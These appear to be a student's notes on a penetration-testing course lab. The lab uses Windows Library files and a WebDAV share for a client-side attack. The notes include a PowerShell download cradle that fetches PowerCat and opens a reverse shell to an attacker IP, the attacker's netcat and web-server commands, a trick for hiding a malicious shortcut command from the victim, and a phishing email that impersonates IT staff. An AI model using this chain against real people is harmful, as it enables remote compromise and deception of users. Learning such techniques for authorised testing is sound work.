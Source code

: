 #### Double-Clicking the Windows Library file
![[Pasted image 20230605160452.png]]
When we open the directory in Explorer, we find the previously-created **test.txt** file we placed in the WebDAV share. Therefore, the library file works and embeds the connection to the WebDAV share.

*As an added bonus, the path in the navigation bar only shows **config** without any indication that this is actually a remote location. This makes it a perfect first stage for our client-side attack.*

#### Modified XML code of config.Library-ms
![[Pasted image 20230605160649.png]]
A new tag appeared named _serialized_.[23](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/client-side-attacks/abusing-windows-library-files/obtaining-code-execution-via-windows-library-files#fn23) The tag contains base64-encoded information about the location of the _url_ tag. Additionally, the content inside the _url_ tags has changed from **`http://192.168.119.2`** to **`\\192.168.119.2\DavWWWRoot`**.

*TIP: To avoid running into any issues when performing this attack, we can reset the file to its original state by pasting the contents of listing 17 into Visual Studio Code*

#### PowerShell Download Cradle and PowerCat Reverse Shell Execution
```PowerShell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```
![[Pasted image 20230605160942.png]]

*TIP: If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.*

#### In the next window, let's enter **automatic_configuration** as the name for the shortcut file and click _Finish_ to create the file

#### On our Kali machine, let's start a Python3 web server on port 8000 where **powercat.ps1** is located
```Shell
python3 -m http.server 8000
```

#### Start a Netcat listener on port 4444
```Shell
nc -lnvp 4444
```

#### Example email content
```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```
